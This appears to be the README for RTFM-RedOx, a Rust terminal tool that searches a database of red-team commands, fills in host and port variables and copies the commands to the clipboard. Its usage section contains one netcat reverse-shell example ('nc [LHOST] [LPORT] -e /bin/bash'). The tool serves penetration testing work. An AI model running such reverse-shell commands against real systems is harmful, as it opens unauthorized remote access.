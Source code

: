 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [RevShells.com](https://revshells.com/).  

## Features
- A command line interface that includes a quick search for commands and comments within the included database.  Searching on a command's comments is useful for something like mimikatz, where mimikatz isn't in the actual command syntax itself, but is referenced in the comments.  
- There is variable replacement similar to msfconsole.  Variables can be added to any command. 
- Update command syntax already in the database as well as add new commands.  
- Multiple references (typically hyperlinks) can be added to commands for things like cheatsheets, explainer videos, tutorials, whatever.  

The ultimate purpose of this is to eliminate the need to leave the terminal to open a note taking app or web browser to search for command syntax and usage, and to not have to repeatedly type in the same remote/local host ips, ports or urls since those are saved as variables within the CLI and automatically replaced in the command before it is copied to the clipboard.

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I'm gradually adding new commands and pushing the edited db file to the repository.    

## Usage
```
Ctrl+r           Cycle through search options to dynamically find commands as you type.
                 Allows searching within commands and comments.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
set              Set a user variable e.g. set lhost 10.10.16.3
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in the redox CLI. And in some cases Ctrl+h stops working, so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

**Kali ARM64**: The following packages are required to successfully build
```
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
sudo apt install libssl-dev
```

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows**: Not supported because the Termion crate does not work on windows.  I'll be switching to crossterm at some point.


## To Add
- [X] Search checks against both command and comment field via Ctrl+r toggle search mode
- [ ] Selectable list of tags to retrieve grouped commands
- [ ] Delete functionality for rows and columns in the database
    - For example, Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.  Deleting references and tags from a command will be done with 'delete tag <id>' or 'delete reference <id>'.  Ids will be displayed next to tags and references in the info for the command.    
- [ ] Add config file to persist user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands from the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Add a local references option via the soon to be added config file for references to notes and scripts on the local filesystem.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Switch from termion to crossterm for Windows support.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

